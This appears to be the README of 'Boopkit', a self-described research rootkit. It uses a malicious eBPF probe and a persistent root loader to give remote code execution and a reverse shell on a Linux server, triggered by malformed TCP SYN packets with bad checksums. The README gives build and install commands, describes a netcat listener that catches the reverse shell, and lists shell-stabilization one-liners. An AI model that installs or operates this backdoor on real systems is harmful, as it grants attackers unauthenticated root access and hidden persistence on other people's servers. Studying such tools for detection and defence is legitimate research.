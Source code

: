 # Boopkit

A research project to demonstrate remote code injection over TCP with a malicious eBPF probe.

### Disclaimer

I am a professional security researcher. These are white hat tools used for research purposes only.

Seriously please use these responsibly.

# Demo

Install `boopkit` on a server that is already running any TCP service (EG: nginx, apache, tomcat, etc).

```
git clone git@github.com:kris-nova/boopkit.git
cd boopkit
make
sudo ./boopkit > /var/log/boop.log &
```

Trigger a reverse shell over an existing TCP service. Edit the `remote` launcher script and point it at any TCP server running on the exploited machine!

```
# edit ./remote/remote as needed
./remote/remote
python -c "import pty; pty.spawn('/bin/bash')"
```

Enjoy the root shell over unauthenticated TCP. 

# Components

| eBPF Probe | Malicious Userspace Program                           | Remote Trigger                                              |
|------------|-------------------------------------------------------|-------------------------------------------------------------|
| Responsible for sending `tracepoint/tcp/tcp_bad_sum` events to userspace | Persistent process in Linux, that does the dirty work | Remote way to trigger the RCE over a network and TCP server |


### eBPF Probe

Can be loaded into the kernel at runtime using the userspace loader program. 
The probe responds to `tcp/tcp_bad_csum` events and will pass the `saddr` (Source Address) up to userspace using an eBPF map.


### Loader Program

This is the malicious program that will respond to the bad checksum packets sent to the server. 
Whenever a malicious packet is sent, the loader program responds with remote code execution.


### Trigger/Remote

The `trigger` binary is a small C program that will send a malformed `SYN` request without a properly calculated checksum to the server.

The `remote` script wraps the `trigger` and will use `netcat` to listen for a reverse shell.

### eBPF and Loader Compile Time Dependencies 

 - 'clang'
 - 'linux-headers'
 - 'llvm'
 - 'libbpf'
 - 'lib32-glibc'

### Boopkit runtime dependencies 

 - Linux kernel with eBPF enabled/supported
 - Ncat running on the server
 - Root access :) 

### Reverse Shell Stabilization

After a successful `/remote` the shell will be very unsightly. 

Select one of the commands to run in order to start a cleaner shell.

```bash
python -c "import pty; pty.spawn('/bin/bash')"
ruby -e "exec '/bin/bash'"
perl -e "exec '/bin/bash';"
```

Next move the newly created shell to the background on your local terminal.

```
Ctrl + z
```

Update the stty locally. 

```bash
stty raw -echo && fg
```

Finally, reconfigure the terminal! 

```bash
export TERM=xterm-256-color
```

Source: [jasonturley.xyz](https://jasonturley.xyz/how-to-stabilize-a-reverse-shell/)
